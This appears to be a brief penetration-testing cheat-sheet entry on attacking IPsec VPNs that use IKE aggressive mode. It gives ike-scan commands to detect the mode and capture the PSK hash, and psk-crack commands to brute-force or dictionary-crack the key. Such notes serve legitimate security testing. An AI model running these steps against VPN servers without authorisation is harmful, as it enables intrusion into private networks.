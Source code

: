 # Exploiting IKE Aggressive Mode

date:: 2022-07-10

In IKE aggressive mode the authentication hash based on a preshared key (PSK) is transmitted as response to the initial packet of a vpn client that wants to establish an IPSec Tunnel (`Hash_R`). This hash is not encrypted (in main mode the hash *is* encrypted)

The `ike-scan` tool can be used to test if an IPSEC VPN server is using IKE in aggressive mode:

```bash
sudo ike-scan -A $IP_ADDRESS
```

If aggressive mode is in use, then `ike-scan` can be used to save the initial exchange for offline cracking:

```bash
sudo ike-scan -A $IP_ADDRESS --id=$ID -P$KEY_FILE
```

`psk-crack` can then be used to (attempt) to crack the resulting `$KEY_FILE`.

```bash
# Attempt to brute-force all keys up to $KEY_LENGTH using
# characters from $CHARSET (by default $CHARSET is numbers and
# lowercase ASCII characters).
#
psk-crack --charset="$CHARSET" -b $KEY_LENGTH $KEY_FILE

# Attempt to crack the PSK using a dictionary.
#
psk-crack -d $WORDLIST_FILE $KEY_FILE
```

## References

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
